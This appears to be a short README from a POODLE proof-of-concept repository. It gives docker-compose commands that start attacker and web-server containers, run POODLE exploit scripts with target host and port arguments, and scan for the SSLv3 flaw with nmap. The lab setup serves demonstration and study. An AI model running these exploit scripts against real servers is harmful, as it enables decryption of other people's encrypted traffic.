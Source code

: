 # Start python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash

# Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or 
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt

# Launch the attack
python3 poodle-poc.py





# Scan poodle vulnerability from the attacker container
docker-compose run nmap -sV -p 443 --script=ssl-poodle web-server



# Use poodle-exploit.py
docker-compose run --rm poodle bash
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50

https://github.com/mpgn/poodle-PoC